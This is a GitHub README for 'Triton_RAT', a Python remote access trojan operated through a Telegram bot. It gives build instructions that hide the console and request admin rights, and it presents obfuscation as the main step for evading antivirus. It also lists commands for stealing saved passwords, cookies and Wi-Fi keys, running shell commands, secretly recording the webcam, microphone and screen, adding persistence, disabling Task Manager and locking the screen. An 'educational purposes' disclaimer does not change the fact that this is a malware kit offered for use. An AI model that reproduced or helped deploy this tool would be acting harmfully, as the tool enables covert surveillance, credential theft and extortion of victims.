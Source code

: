# Triton_RAT
<div align="center" id="top">
  
</div>


<div align="center">
  <h1>Triton_Remote_Administration_Tool</h1>
<img src="https://i.ibb.co/hVTH6L5/TRITON.png" alt="TRITON" border="0">
  
  <h2 align="center">Hi 👋, I'm WhiteeRabbit</h2>
  
  
  <h3 align="center">I wrote RAT in python that works with telegram!</h3>


  <h3>The best rat that works with telegram!</h3>
This tool was created for educational purporses only!
I'm not responding for your action!
</div>





## :dart: About ##

**With this tool you can control with YOUR pc remotly using telegram**
That you need only hand (2 optional) , exe file that you will get from pyinstaller and telegram account

<p align="left"> <a href="https://twitter.com/" target="blank"><img src="https://img.shields.io/twitter/follow/?logo=twitter&style=for-the-badge" alt="" /></a> </p>

<p align="left">
</p>

<h3 align="left">Let's get started!:</h3>
<h3 align="left">Download python!</h3>
<p align="left"> <a href="https://www.python.org" target="_blank" rel="noreferrer"> <img src="https://raw.githubusercontent.com/devicons/devicon/master/icons/python/python-original.svg" alt="python" width="40" height="40"/> </a> </p>

<h1 align="left">Bot Password (when you entering /help or /start) : acd</h1>



## :checkered_flag: Starting ##

```bash
# Register account in telegram
# Create bot with botfather


# Download this project

$ Download pyinstaller from https://github.com/pyinstaller/pyinstaller
# because most antiviruses will detect as virus pyinstaller from original pip version
# if you downloaded pyinstaller from pip like pip install pyinstaller
# Delete that 

# also i'm recomending you to install and upgrade setuptools and pip
$ pip install --upgrade setuptools pip
# if you don't do this, problems may arise

# Download requiremets.txt
$ pip install -r requirements.txt

# change bot api in python file to your own bot
$ bot = telebot.TeleBot('your api token')

# !MAIN STEP! obfuscation will help to deceive antiviruses
$ to obfuscate that script copy full code and paste it in https://freecodingtools.org/py-obfuscator
$ https://freecodingtools.org/py-obfuscator
# Of course you can use another obfuscators but i like that obfuscator (this is not an advertisement)

# after downloading pyinstaller run:
$ pyinstaller --onefile --noconsole --uac-admin --hidden-import telebot --hidden-import pyautogui --hidden-import cv2 --hidden-import json --hidden-import base64 --hidden-import sqlite3 --hidden-import win32crypt --hidden-import Cryptodome.Cipher.AES --hidden-import shutil --hidden-import datetime --hidden-import numpy --hidden-import pyaudio --hidden-import wave --hidden-import random --hidden-import browser_cookie3 --hidden-import pyttsx3 Triton_Rat_Release.py



# wait for building exe
# !BOT PASSWORD IS: acd

$ run exe and bot started! 


```

## You can use:

        ⚔️/start - start the program
        ⚙️/help - help with commands
        🔌/addstartup - to add autostart
        🧑🏻‍💻/users - show users in pc
        🔑/passwords - show saved passwords in pc
        🍪/robloxcookie - show roblox cookies
        🪪/info - to show information about pc ,also location , country, city , ip
        🖥️/whoami - to show name of pc
        💬👂🏻/textspech 'your text' - your text will sounded in pc
        🎵/playsound 'file path' -(first run /upload to upload your music file in pc) your file will sound in pc for ex: /playsound C:\test.mp3
        🔫/execute - execute shell commands (like terminel emulator in netcat)
        🗡️/e 'your command' - also execute shell commands
        🏹/ex 'your command' - use this if you will execute commands with long response 
        📷/screenshot - to get screenshot
        📹/webscreen - get screenshot from camera
        🎙️/mic 'time in seconds' - record microphone of pc
        ☢️/winblocker - my own winlocker
        ☣️/winblocker2 - if winblocker doesnt work
        📁/download 'your file' - to download files(for exm: /download C:\test.txt)
        🗃️/upload - to upload file in target pc
        📋/clipboard - show users clipboard
        🎦/webcam - get webcam video
        🎥/screenrecord - get screenrecord
        🌐/chrome 'website url' - open website in chrome in target pc
        🌐/edge 'website url' - open website in edge in target pc
        🌐/firefox 'website url' - open website in firefox in target pc             
        Ⓜ️/msg 'your message' - send message(messagebox) to target
        💣/spam 'your message' - spam your message 10 times but if you will click al lot...
        🛜/wifilist - show saved wifi
        🔐/wifipass 'name of accespoint' - show password of saved wifi
        🖱️/mousemesstart - start mouse messing
        🐁/mousemesstop - stop mouse messing
        🪤/mousekill - disable mouse
        🐭/mousestop - enable mouse
        🔊/fullvolume - make full volume
        🔉/volumeplus - make pc volume + 10
        🔇/volumeminus - make pc volume - 10
        🪦/disabletaskmgr - disable task manager
        📠/enabletaskmgr - enable task manager
        🧱/wallpaper - change desktop's wallpaper
        ⌨️/keypress 'your key' - in pc's keyboard will pressed this keys 
        ⌨️/keypresstwo 'your key' 'your key' - in pc's keyboard will pressed this keys 
        ⌨️/keypressthree 'your key' 'your key' 'your key' - in pc's keyboard will pressed this keys 
        📃/tasklist - to show tasks
        🧨/taskkill 'your task' - kill entered task
        🕶️/hide - to hide your app
        👓/unhide - unhide your app
        💤/sleep - send windows to sleep
        🕚/shutdown - shutdown pc
        🔄️/restart - restart pc



## Antivirus check ##

![Снимок экрана (21)](https://github.com/WhiteeRabbit/Triton_RAT/assets/143087729/178186bb-aada-4e7b-bf6f-1e751675d6e4)







## :memo: License ##

This project is licensed under the MIT License. For more details, please refer to the [LICENSE](LICENSE.md) file.

